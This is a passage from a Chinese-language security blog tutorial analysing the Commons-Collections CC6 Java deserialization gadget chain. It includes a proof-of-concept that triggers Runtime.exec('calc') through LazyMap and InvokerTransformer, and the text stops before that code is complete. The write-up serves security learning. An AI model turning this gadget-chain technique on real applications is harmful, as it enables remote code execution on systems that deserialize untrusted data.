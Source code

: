 # Java 反序列化 Commons-Collections 篇 03-CC6 链

## 0x01 前言

- 开始我们 CC 链代码审计的第二个链子 CC6

先说一说 CC6 链同我们之前 CC1 链的一些不同之处吧，我们当时审计 CC1 链的时候要求是比较严格的。要求的环境为 `jdk8u65` 与 `Commons-Collections 3.2.1`

而我们的 CC6 链，可以不受 jdk 版本制约。

> 如果用一句话介绍一下 CC6，那就是 CC6 = CC1 + URLDNS

CC6 链的前半条链与 CC1 正版链子是一样的，也就是到 LazyMap 链

## 0x02 环境搭建

- [Jdk 8u71](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html)
- Comoons-Collections 3.2.1

大致的搭建思路可以参照我之前的文章 [Java反序列化CommonsCollections篇01-CC1链环境搭建](https://drun1baby.github.io/2022/06/06/Java反序列化CommonsCollections篇01-CC1链/#toc-heading-2)

## 0x03 CC6 链分析

- 因为前半段链子，`LazyMap` 类到 `InvokerTransformer` 类是一样的，我们直接到 `LazyMap` 下。

然后我们还是找其他调用 `get()` 方法的地方，我也不知道这是怎么找出来的，因为 `get()` 方法如果 find usages 会有很多很多方法，可能这就是 Java 安全卷的原因吧。

### 1. 寻找尾部的 exec 方法

尾部的链子还是 CC1 链中，我们用到的那个 `InvokerTransformer` 的方法，前一段链子是和 CC1 链是一样的。

![img](https://drun1baby.top/2022/06/11/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8703-CC6%E9%93%BE/SameChains.png)

### 2. 找链子

- 根据 ysoSerial 官方的链子，是 `TiedMapEntry` 类中的 `getValue()` 方法调用了 `LazyMap` 的 `get()` 方法。

![img](https://drun1baby.top/2022/06/11/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8703-CC6%E9%93%BE/TiedMapEntryChains.png)

这里先重新写一遍 LazyMap 类调用计算器的 EXP，这种 EXP 是不嫌多的，多写一写能让自己更加熟练。

JAVA

```
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.map.LazyMap;  
  
import java.lang.reflect.Method;  
import java.util.HashMap;  
import java.util.Map;  
  
// 用 decorate 触发弹计算器，确保此链可用  
public class LazyMapEXP {  
    public static void main(String[] args) throws Exception{  
        Runtime runtime = Runtime.getRuntime();  
 InvokerTransformer invokerTransformer = new InvokerTransformer("exec"  
 , new Class[]{String.class}, new Object[]{"calc"});  
 HashMap<Object, Object> hashMap = new HashMap<>();  
 Map decorateMap = LazyMap.decorate(hashMap, invokerTransformer);  
 Class<LazyMap> lazyMapClass = LazyMap.class;  
 Method lazyGetMethod = lazyMapClass.getDeclaredMethod("get", Object.class);  
 lazyGetMethod.setAccessible(true);  
 lazyGetMethod.invoke(decorateMap, runtime);  
 }  
```